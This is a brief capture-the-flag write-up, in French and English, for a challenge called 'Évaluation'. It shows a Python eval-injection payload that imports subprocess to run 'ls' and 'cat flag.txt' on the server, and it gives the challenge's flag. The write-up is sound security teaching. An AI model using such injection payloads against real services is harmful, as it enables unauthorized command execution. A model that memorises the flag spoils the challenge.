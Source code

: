 # Évaluation

## Write-up (français)

On peut importer le module subproccess afin de recup le contenu de notre commande:

```python
__import__('subprocess').check_output("ls", shell=True)
# on a le nom du fichier du flag
__import__('subprocess').check_output("cat flag.txt", shell=True)
```


## Write-up (english)

We can import the subproccess module to get the content of our command:

```python
__import__('subprocess').check_output("ls", shell=True)
# we now have the name of the flag file
__import__('subprocess').check_output("cat flag.txt", shell=True)
```



## Flag

`flag-Ev4L_1s_R4R3LY_@_G00D_1d34`

